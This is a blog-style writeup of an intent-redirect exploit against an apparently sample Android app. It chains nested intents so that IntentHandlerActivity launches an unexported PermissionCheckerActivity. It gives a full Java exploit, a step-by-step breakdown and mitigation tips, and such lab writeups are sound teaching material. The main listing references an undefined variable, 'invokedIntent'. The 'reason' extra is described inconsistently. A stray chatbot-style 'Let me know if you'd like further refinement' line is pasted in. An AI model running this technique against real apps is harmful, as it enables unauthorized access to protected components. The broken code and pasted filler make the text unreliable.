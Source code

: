 ```yaml
---
layout: post
title: 'Intent Redirect: Unlocking Unexported Activity in Android Applications'
date: 2025-03-14 20:36 +0200
categories: Mobile
tags: Android Mobile
---
```


When building secure Android applications, handling intents safely is paramount. Intents facilitate communication between components but can also expose vulnerabilities when improperly implemented. In this writeup, we’ll explore how to exploit a chain of intents to uncover hidden functionality in the `IntentHandlerActivity` and `PermissionCheckerActivity` of a sample app.

## Overview of the Vulnerable Activities
### IntentHandlerActivity
The `IntentHandlerActivity` code introduces an intent attack surface by processing nested intents:
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*jIO7J-9KyzS54GlgDgb_qQ.png)

Key observations:
- **Nested Intents:** `IntentHandlerActivity` checks for an intent with the extra key "`android.intent.extra.INTENT`".
- **Conditions**: For the nested intent to be processed,
it must Have `return == 42` and also include another intent (`nextIntent`) with a reason `extra`.
- **Action**: If `reason == "next"`, `nextIntent` is launched.

### PermissionCheckerActivity
`PermissionCheckerActivity` responds to specific flags and permissions:
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*721C45T034CBPm6v3eLGrQ.png)
This means `PermissionCheckerActivity` requires: The `FLAG_GRANT_READ_URI_PERMISSION` flag.

## The Attack Strategy
The goal is to exploit `IntentHandlerActivity` to invoke `PermissionCheckerActivity` indirectly. Since `IntentHandlerActivity` validates and launches `nextIntent`, we can craft a malicious chain of intents to meet the conditions of both activities.

## Crafting the Exploit
Below is the Java code for an activity (`MainActivity`) that constructs and launches the required intent chain:
```java
package com.example.intenttest;

import android.content.ComponentName;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.widget.Button;

import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        ((Button) findViewById(R.id.btn_launch_activity)).setOnClickListener(v -> {
            Intent invokerIntent = new Intent();
            invokerIntent.setComponent(new ComponentName(
                    "com.attacksurface",
                    "com.attacksurface.activities.IntentHandlerActivity"
            ));

            Intent targetIntent = new Intent();
            targetIntent.setComponent(new ComponentName(
                    "com.attacksurface",
                    "com.attacksurface.activities.PermissionCheckerActivity"
            ));

            targetIntent.putExtra("reason", "next");
            targetIntent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);

            Intent innerIntent = new Intent();
            innerIntent.putExtra("return", 42);
            innerIntent.putExtra("nextIntent", invokedIntent);

            invokerIntent.putExtra("android.intent.extra.INTENT", innerIntent);

            startActivity(invokerIntent);
        });
    }
}
```
## Exploit Breakdown
The following is a detailed breakdown of the exploit designed to target the `IntentHandlerActivity` and indirectly invoke the `PermissionCheckerActivity`:
### 1. Outer Intent (invokerIntent)
**Purpose:**
This is the outermost intent that targets the vulnerable `IntentHandlerActivity`.

**Key Properties:**

- **Target Component:** `com.attacksurface.activities.IntentHandlerActivity`
- **Payload**:
It contains an extra with the key `android.intent.extra.INTENT`, which carries a nested intent (**innerIntent**).
```java
Intent invokerIntent = new Intent();
invokerIntent.setComponent(new ComponentName(
        "com.attacksurface",
        "com.attacksurface.activities.IntentHandlerActivity"
));
```

### 2. Inner Intent (innerIntent)
**Purpose:**
This nested intent is validated by IntentHandlerActivity and holds the key to triggering the target activity.

**Key Properties:**

- **Validation Parameter:**
The return extra is set to 42, which satisfies a condition in IntentHandlerActivity.
- **Payload:**
It contains another nested intent (nextIntent) that will eventually be passed to PermissionCheckerActivity.
```java
Intent innerIntent = new Intent();
innerIntent.putExtra("return", 42);
innerIntent.putExtra("nextIntent", targetIntent);
```

### 3. Target Intent (targetIntent)
**Purpose:**
This intent is the core target, which will be passed and triggered in PermissionCheckerActivity via the exploit.

**Key Properties:**

- **Target Component:**
`com.attacksurface.activities.PermissionCheckerActivity`
- **Validation Parameters:**
`reason`: Set to "`next`", which satisfies a condition in `IntentHandlerActivity`.
`FLAG_GRANT_READ_URI_PERMISSION`: This flag is essential to pass the permission check in `PermissionCheckerActivity`.
```java
Intent targetIntent = new Intent();
targetIntent.setComponent(new ComponentName(
        "com.attacksurface",
        "com.attacksurface.activities.PermissionCheckerActivity"
));
targetIntent.putExtra("reason", "next");
targetIntent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
```

### 4. Linking Intents
**Process:**
The intents are chained together in a specific order:

- The `targetIntent` is embedded within `innerIntent` as the value for the key `nextIntent`.
- The `innerIntent` is embedded within `invokerIntent` as the value for the key `android.intent.extra.INTENT`.
**Outcome:**
When `invokerIntent` is launched, it triggers a chain of intent calls that bypasses restrictions, eventually leading to the launch of `PermissionCheckerActivity`.
```java
invokerIntent.putExtra("android.intent.extra.INTENT", innerIntent);
```

### 5. Triggering the Exploit
**Execution:**
The exploit is triggered when the button in the MainActivity UI is clicked, calling startActivity(invokerIntent) to start the chain of intents.
```java
((Button) findViewById(R.id.btn_launch_activity)).setOnClickListener(v -> {
    startActivity(invokerIntent);
});
```

## Exploit Flow Summary
- **MainActivity**: Constructs and launches `invokerIntent`.
- **IntentHandlerActivity**: Processes `invokerIntent` and validates `innerIntent`.
- **PermissionCheckerActivity**: Executes `targetIntent`, completing the flow and performing its functionality.

By chaining these intents together, the exploit bypasses security restrictions and successfully invokes `PermissionCheckerActivity`.

Let me know if you’d like further refinement or more detailed explanations!

## Mitigation Strategies
To prevent such vulnerabilities, developers should:

1. **Restrict Component Exposure:**
Mark sensitive activities as `android:exported="false"` unless explicitly needed.
2. **Validate Incoming Intents:**
Check the source of intents using `getCallingPackage()` or `PendingIntent`.
3. **Avoid Processing Nested Intents:**
Minimize or eliminate the use of nested intents unless absolutely necessary.
4. **Enforce Permissions:**
Require explicit permissions for sensitive activities.

## Conclusion
This writeup demonstrates how improper intent handling can expose vulnerabilities in Android applications. By crafting a malicious chain of intents, we successfully exploited the `IntentHandlerActivity` and `PermissionCheckerActivity`. This highlights the importance of secure coding practices to protect applications from intent-based attacks.

**THANKS FOR READING ❤️**
